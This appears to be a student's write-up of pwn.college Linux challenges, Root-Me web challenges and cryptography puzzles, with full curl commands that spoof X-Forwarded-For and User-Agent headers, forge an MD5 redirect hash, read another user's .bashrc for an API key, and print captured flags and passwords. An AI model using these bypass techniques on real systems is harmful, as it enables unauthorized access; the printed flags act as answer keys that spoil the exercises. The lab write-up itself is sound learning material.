






# 1 Linux Questions

### piping
```bash
hacker@piping~split-piping-stderr-and-stdout:~$ /challenge/hack > >(/challenge/planet) 2> >(/challenge/the)
Congratulations, you have learned a redirection technique that even experts 
struggle with! Here is your flag:
pwn.college{QnvXsZS5GwWALiWLKsSicF_4Zq2.dFDNwYDLxUjN0czW}
hacker@piping~split-piping-stderr-and-stdout:~$ 
```

### globbing
```bash
hacker@globbing~multiple-globs:~$ cd /challenge/files
hacker@globbing~multiple-globs:/challenge/files$ /challenge/run "*p*"
Error: your argument is too long! It must be 3 characters or less.
hacker@globbing~multiple-globs:/challenge/files$ /challenge/run *p*
You got it! Here is your flag!
pwn.college{UQbTqCFoeYqO6vovO7GR8dEbtfg.QXycTO2EDLxUjN0czW}
hacker@globbing~multiple-globs:/challenge/files$ 
```

### Silly Shenanigans
style points :D
```bash
hacker@shenanigans~snooping-on-configurations:~$ flag_getter --key "$(grep FLAG_GETTER_API_KEY ~zardus/.bashrc | cut -d= -f2)"
Correct API key! Do you want me to print the flag (y/n)?
y
pwn.college{snhfKafUF7VwoBC_A9ahah7PW_2.QXyQTM3EDLxUjN0czW}

hacker@shenanigans~snooping-on-configurations:~$ 
```


# 2 Webex questions

### HTML - Source code
The password is literally in the source code, and also in the URL encoded as param.



### HTTP - IP restriction bypass
We first copy the the request as curl

This is classic XFF
```bash
achu@air Technical % curl 'http://challenge01.root-me.org/web-serveur/ch68/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'DNT: 1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  -H 'X-Forwarded-For: 192.168.0.1' \
  --insecure

<!DOCTYPE html>
<html>
<head>
	<title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
			<h1>Intranet</h1>
		<div>
			Well done, the validation password is: <strong>Ip_$po0Fing
</strong>
		</div>
	</body>
</html>

achu@air Technical % 
```

### Open redirect
Challenge name hints at redirects, we'll take a look at the redirects.

Attempting to modifying the `url` param
```bash
achu@air Technical % curl 'http://challenge01.root-me.org/web-serveur/ch52/?url=https://achus.casa&h=a023cfbf5f1c39bdf8407f28b60cd134' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'DNT: 1' \
  -H 'Referer: http://challenge01.root-me.org/web-serveur/ch52/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  --insecure
<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p id='error'>Incorrect hash!</p><h1>Social Networks</h1>
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
<style type="text/css">
        body{
                text-align: center;
                font-family: arial;
        }

        a{
                color: #FFFFFF;
                text-decoration: none;
                text-transform: capitalize;
                padding: 8px;
                background-color: #1CB2D2;
                border-radius: 5px;
                width: 100px;
                display: inline-block;
        }
        a:hover{
                background-color: #3968A9;
        }

        #error{
                color: red;
                font-weight: bold;
        }

</style>
</body>
</html>

achu@air Technical % 
```
Interesting, we'll need to change the `h` param to match our url, which seemingly uses `md5`.
```bash
achu@air Technical % curl "http://challenge01.root-me.org/web-serveur/ch52/?url=https://achus.casa&h=$(printf 'https://achus.casa' | md5)" \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'DNT: 1' \
  -H 'Referer: http://challenge01.root-me.org/web-serveur/ch52/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  --insecure

<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
</p><script>document.location = 'https://achus.casa';</script>
<style type="text/css">
        body{
                text-align: center;
                font-family: arial;
        }

        a{
                color: #FFFFFF;
                text-decoration: none;
                text-transform: capitalize;
                padding: 8px;
                background-color: #1CB2D2;
                border-radius: 5px;
                width: 100px;
                display: inline-block;
        }
        a:hover{
                background-color: #3968A9;
        }

        #error{
                color: red;
                font-weight: bold;
        }

</style>
</body>
</html>

achu@air Technical %
```
There we go!

### HTTP - User-agent
Challenge name is literally the most dead giveaway in existence.
```hash
achu@air Technical % curl 'http://challenge01.root-me.org/web-serveur/ch2/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'DNT: 1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: admin' \
  --insecure
<html><body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe><h3>Welcome master!<br/>Password: rr$Li9%L34qd1AAe27
</h3></body></html>

achu@air Technical %
```
(changed `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36` to `admin`)

### HTTP - Directory indexing
Inspecting the landing gives us some clues

Visiting `http://challenge01.root-me.org/web-serveur/ch4/admin/pass.html` wasn't particularly fruitful, however the title indicates traversal. So I tried `http://challenge01.root-me.org/web-serveur/ch4/admin/pass.html/../` which took me here:

In `http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt` we find the password



# 3 Cryptography

Source: `source/CryptographySolutions.ipynb`

### 3.1 Hill Cipher
Implemented encrypt/decrypt with 2×2 brute force (26⁴ matrices, filter invertible).

### 3.2 Frequency Analysis (book.txt)
Emoji-substitution cipher. Frequency analysis + hill-climbing revealed the text.
**Answer:** *Ulysses* by **James Joyce**

### 3.3 Spiral Cipher
Arranged 49 chars into 7×7 grid, read clockwise spiral.
**Flag:** `taskphase{L53m1s_nr4_fOWL_PL4YPdy}`

### 3.4 Averages Cipher
Ambiguous phrasing, will ask the MIST people for clarification.
